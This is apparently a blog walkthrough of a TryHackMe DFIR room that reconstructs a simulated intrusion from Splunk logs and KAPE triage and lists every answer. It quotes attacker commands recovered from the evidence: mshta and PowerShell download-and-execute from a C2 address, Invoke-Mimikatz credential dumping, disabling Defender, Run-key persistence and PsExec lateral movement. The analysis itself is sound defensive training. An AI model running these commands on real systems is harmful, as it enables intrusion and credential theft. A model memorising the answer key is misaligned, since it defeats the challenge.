


| <script src="https://tryhackme.com/badge/434937"></script>| <a class="twitter-follow-button" href="https://twitter.com/anir0y" data-size="large"> Follow @anir0y<a>|
|---|---|
|Zero Tolerance ||

Zero Tolerance is a medium DFIR challenge that drops you into an MSSP on day one of a zero-tolerance contract: one missed critical alert and the client walks. A persistence alert has already fired, and you get two evidence sources to reconstruct what happened, a Splunk instance holding Windows Event Logs, Sysmon, and PowerShell logs from two hosts, plus a KAPE triage collection from the compromised machine. There is no exploitation here, just fourteen questions that march through an entire intrusion in order. It pairs well with my [Splunk 101 notes](/post/soc-splunk101/) and the carving-heavy [Extracted walkthrough](/post/thm-room-extractedroom/).

The whole room is a single task, but the questions trace a clean kill chain: initial access on a workstation, C2, persistence, credential theft, defense evasion, lateral movement to a backup server, and finally collection and staging. I worked it from Splunk's REST API and a local parse of the KAPE triage, correlating the two. Everything below runs against the authorized lab only.

## Setup: two hosts, one index

The first query is always a census. Every event lands in `index=zerotolerance`, split across two hosts:

```text
  index=zerotolerance | stats count by sourcetype host
  #  WinEventLog | JP-BROWN-WS  (Sysmon + Security + PowerShell)
  #  WinEventLog | BKUP-SRV01   (the backup server)
```

`JP-BROWN-WS` is jp.brown's workstation, the beachhead. `BKUP-SRV01` is the backup server, which turns out to be the lateral-movement target. Knowing the two hosts up front keeps every later question anchored to the right machine. The attack itself happened on 2025-11-14, so I set `earliest=0` on every search; the THM dataset is backdated and the default time picker returns nothing.

**A mistake worth owning.** I started by parsing the KAPE Sysmon log locally and filtered out every `10.x` destination as "internal noise." That hid the C2 completely, because the attacker's server sits inside the same `10.10.0.0/16` lab range. Treating RFC1918 as automatically benign is exactly how you miss an internal pivot or a C2 that lives on a compromised neighbor. Splunk, with no such filter, surfaced it in one `stats`.



## Task 1: initial access through a phishing LNK and mshta

The question set opens on the beachhead. A `stats count by DestinationIp` over Sysmon network events (`EventCode=3`) makes the C2 jump out immediately: one destination dwarfs everything else.



`C:\Windows\Temp\RuntimeBroker.exe` beaconed to **`10.10.14.174`** on port 8080 over twelve thousand times. The real `RuntimeBroker.exe` lives in `System32`, so a copy in `C:\Windows\Temp` is a masquerade. That answers the C2 IP and names the beaconing process. Working backwards from it reconstructs the whole entry:

```text
  # how RuntimeBroker.exe got there
  mshta.exe http://10.10.14.174:80/KsWLx.hta        (parent: explorer.exe)
    -> powershell -WindowStyle Hidden -Command
       "(New-Object Net.WebClient).DownloadFile(
          'http://10.10.14.174:80/RuntimeBroker.exe','C:\Windows\Temp\RuntimeBroker.exe')"
```

`explorer.exe` launched `mshta.exe`, which means the user double-clicked something. Tracing `mshta`'s parent PID back to explorer, then pivoting into the KAPE triage and Sysmon file-create events (`EventCode=15`, the mark-of-the-web stream), shows what: `TravisClart_Resume.zip` was downloaded from the internet, and inside it sat `C:\Users\jp.brown\Downloads\TravisClart_Resume.pdf.lnk`. A double-extension `.pdf.lnk` masquerading as a resume, whose shortcut target invokes the LOLBin `C:\Windows\System32\mshta.exe` against the attacker's hosted `.hta`.

That is the classic User Execution chain, so the ATT&CK sub-technique is **`T1204.002`** (User Execution: Malicious File). The honest nuance: the file the user clicked (`TravisClart_Resume.pdf.lnk`) and the LOLBin it abused (`mshta.exe`) are separate answers, and the room asks for both. The lure is the file; the signed Windows binary that actually ran the code is the LOLBin.

| Initial-access answer | Value |
|---|---|
| Beachhead host | `JP-BROWN-WS` |
| Code-execution sub-technique | `T1204.002` |
| Malicious file | `C:\Users\jp.brown\Downloads\TravisClart_Resume.pdf.lnk` |
| LOLBin | `C:\Windows\System32\mshta.exe` |
| C2 server | `10.10.14.174` |
| C2 beaconing process | `C:\Windows\Temp\RuntimeBroker.exe` |

## Task 1: persistence, credential theft, and defense evasion

With the beacon running, the operator settled in. Sysmon registry-set events (`EventCode=13`) show the autorun that fired the original alert:



```text
  reg.exe add HKCU\Software\Microsoft\Windows\CurrentVersion\Run
    /v SystemMonitor /t REG_SZ /d "C:\Windows\Temp\RuntimeBroker.exe" /f
```

The persistence path is **`HKCU\Software\Microsoft\Windows\CurrentVersion\Run\SystemMonitor`**. A format note that cost me a retry later: Sysmon logs the `TargetObject` as `HKU\S-1-5-21-...\Software\...`, but the accepted answer is the `HKCU\` form. The room's answer mask shows a four-character first node (`HKCU`), not the long `HKU\<SID>` string, so read the mask before committing.

The rest of the hands-on-keyboard activity is in process-creation events:

```text
  # credential dumping
  powershell -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString(
    '.../Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds"

  # defense evasion
  powershell -exec bypass -w hidden -c "Set-MpPreference -DisableRealtimeMonitoring 1 ..."
```

So the credential-dumping tool and parameter are **`Invoke-Mimikatz -DumpCreds`**, and the Defender setting they weakened is **`DisableRealtimeMonitoring`**. The mimikatz run harvested the `bkup-svc` service-account credentials, which is what makes the next hop possible.

## Task 1: lateral movement to the backup server

Armed with `bkup-svc`, the operator reached across to `BKUP-SRV01` (`10.10.152.240`). PsExec did the first remote command:

```text
  PsExec64.exe \\10.10.152.240 cmd /c "reg add
    HKLM\System\CurrentControlSet\Control\Lsa /v DisableRestrictedAdmin /t REG_DWORD /d 0 /f"
```

The PsExec client that initiated this ran as **PID 6612** on the beachhead. It flips `DisableRestrictedAdmin` to 0, enabling Restricted Admin mode so the next step can RDP in with the dumped hash rather than a cleartext password. Seconds later `mstsc.exe /restrictedadmin /v:10.10.152.240` fired, and on `BKUP-SRV01` a successful `4624` logon appears:

```text
  host=BKUP-SRV01 EventCode=4624
  Logon Type: 10 (RemoteInteractive)   Account: bkup-svc   Source: 10.10.52.82
  Time: 2025-11-14 05:19:42
```

Source `10.10.52.82` is the beachhead (the same host doing all that C2 beaconing), so this type-10 logon at **`2025-11-14 05:19:42`** is the threat actor logging into the remote system. Another answer-format trap bit here: I first submitted the time with slashes (`11/14/2025`) and it was rejected. The mask rendered the date as ten bare asterisks with no `/`, meaning the separators are dashes (ISO `2025-11-14`), because slashes stay literal in THM masks while dashes render as `*`. Reading the placeholder as a spec, not a suggestion, is the whole game on these.

## Task 1: collection and staging on BKUP-SRV01

Inside the backup server, `bkup-svc` ran an interactive PowerShell that pulled down and executed the collection script:

```text
  powershell -exec bypass -c "Invoke-WebRequest
    -Uri 'http://10.10.14.174:80/Setup-BackupServer.ps1'
    -OutFile 'C:\Windows\Temp\Setup-BackupServer.ps1'; & 'C:\Windows\Temp\Setup-BackupServer.ps1'"
```

The script itself is in the KAPE triage at **`C:\Windows\Temp\Setup-BackupServer.ps1`**, and reading it answers the last two questions outright. Its extension list defines what it hunts for:

```powershell
  $extensions = @('*.bak','*.backup','*.sql','*.mdb','*.accdb','*.vhd', ...)
```

The first four targeted extensions are **`.bak, .backup, .sql, .mdb`**, a database-and-backup grab exactly fitting a bank's backup server. The script copies matches into a random `~BK####` temp folder, compresses them, and renames the zip to a `.dat` to blend in:

```powershell
  $archiveName = "sysbackup_" + (Get-Date -Format 'yyyyMMdd')   # sysbackup_20251114
  $archiveTmp  = "$env:TEMP\$archiveName.dat"
```

It ran as `bkup-svc`, so `$env:TEMP` resolves to that profile and the staged archive is **`C:\Users\bkup-svc\AppData\Local\Temp\sysbackup_20251114.dat`**. The script then deletes its working directory, which is why the `.dat` is not sitting in the triage file set; the path is deterministic from the script plus the execution context, and the leftover PowerShell history in the MFT (`Get-ChildItem $env:TEMP -Filter "sysbackup_*.dat"`) confirms the operator went looking for exactly that file.

| Post-exploitation answer | Value |
|---|---|
| Persistence key | `HKCU\Software\Microsoft\Windows\CurrentVersion\Run\SystemMonitor` |
| Credential dumping | `Invoke-Mimikatz -DumpCreds` |
| Defender setting | `DisableRealtimeMonitoring` |
| Remote-exec initiator PID | `6612` |
| Remote logon time | `2025-11-14 05:19:42` |
| Collection script | `C:\Windows\Temp\Setup-BackupServer.ps1` |
| First four extensions | `.bak, .backup, .sql, .mdb` |
| Staged archive | `C:\Users\bkup-svc\AppData\Local\Temp\sysbackup_20251114.dat` |

## Two takeaways

First, internal is not a synonym for trusted. My one real stumble was filtering `10.x` out of the network data as noise, which erased the C2 from view. In a flat lab range, and in plenty of real networks, the command-and-control host, the pivot box, and the exfil collector all wear RFC1918 addresses. Rank Sysmon `EventCode=3` by connection count and let volume, not address class, tell you where the beacon is; twelve thousand connections to one host from a `Temp`-resident binary is the signal regardless of its subnet.

Second, on a guided DFIR room the answer mask is a parser spec, and reading it saves retries. Two of my submissions failed purely on format, the registry key (`HKCU` versus the Sysmon `HKU\<SID>` rendering) and the logon time (ISO dashes versus `MM/DD/YYYY` slashes). THM masks keep slashes, dots, colons, and underscores literal while rendering hyphens as asterisks, so a ten-character date with no visible separator means dashes. The underlying evidence was right both times; the character-exact formatting is a separate step, and checking the placeholder before clicking Check is faster than guessing.

Room solved 100%: 1 task, 14 answers.
